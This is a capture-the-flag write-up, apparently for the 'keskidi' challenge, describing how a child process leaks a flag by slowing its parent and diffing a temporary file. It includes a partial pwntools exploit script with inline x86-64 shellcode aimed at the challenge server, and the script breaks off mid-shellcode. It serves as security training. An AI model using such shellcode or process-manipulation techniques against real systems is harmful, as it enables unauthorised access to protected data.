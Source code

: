 Well, the child does not have the right to read the flag directly, he does not have the right to read the parent memory , via `/proc/pid/mem `or via `ptrace` the only way to interact with the flag, is via the temporary file that the parent start (1 second later than our shellcode start) to erase each flag chars occurences one by one..

so here is the plan I found to dump the flag:

1. The child dump the random data original state in the `.bss` to `stdout`, like this we know the initial state of the temporary file.
2. it renice the parent to slow it down a bit..
3. it wait a bit the parent start to read the flag and erase char occurrence in temporary file.
4. overwrite temporary file with the original random data we save at beginning , as the temporary file is writable by us, it will reset to initial state.
5. wait a amount of time, during which the parent will continue erasing char occurrences.
6. dump again the temporary file to `stdout`, and calculate difference with the original one, to find which character is being erased.. then loop to overwrite (number 4)

Like this we will see appearing characters one by one..

here is the working exploit:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("keskidi")

host, port = "challenges.france-cybersecurity-challenge.fr", "2103"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

shellc = asm('''
 push 110
  pop rax
  syscall
  cld
  push rax

  // renice parent
  xor edi,edi
  mov esi,eax
  mov edx,4
  mov eax,141
  syscall
  pop rax

  // output orig random
  mov r10,[rsp]
  add r10,(0x4060-0x13c0) 
  mov edi,1
  mov rsi,r10
  mov edx,0x1000
  mov eax,1
  syscall

  // sleep until parent start working
  mov eax,35
  mov rcx,500000000
  push rcx
```